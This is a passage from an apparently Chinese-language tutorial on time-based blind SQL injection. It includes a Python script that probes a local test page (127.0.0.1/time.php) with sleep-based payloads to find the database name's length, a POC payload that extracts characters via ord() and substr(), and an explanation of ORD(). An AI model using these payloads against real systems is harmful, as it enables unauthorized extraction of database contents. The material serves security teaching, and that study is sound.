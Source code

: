 说明数据库名称长度在`1~10` 之间，我们同样可以写一个脚本来完成数据库长度的遍历工作。

```text
import requests
import time


for num in range(0,10):
    url = r'http://127.0.0.1/time.php?id=1%20%20%27%20and%20if(length(database())%3C='+ str(num) + ',sleep(5),1)%20--+'
    start = time.clock()
    r = requests.get(url)
    elapsed = (time.clock() - start)
    if elapsed >= 3:
        print('数据库长度为：' + str(num))
        exit()
```

![](../../../.gitbook/assets/tu-pian%20%2823%29.png)

同样的，我们也可以用之前的`substr()` 等函数来进行爆字符的操作。

POC：

```text
id=1%20%20%27%20and%20if(ord(substr(database(),1,1))=116,sleep(5),1)%20--+
```

我们这里首先了解如下函数

ORD\(string\)

ORD\(\) 函数返回字符串第一个字符的 [ASCII](http://www.nowamagic.net/academy/tag/ASCII) 值。

```text
SELECT ord('t')
```

![](../../../.gitbook/assets/tu-pian%20%2855%29.png)

我们可以看到`t` 的ascii值为`116` ，我们可以优化以下我们的脚本，来爆出数据库名称。
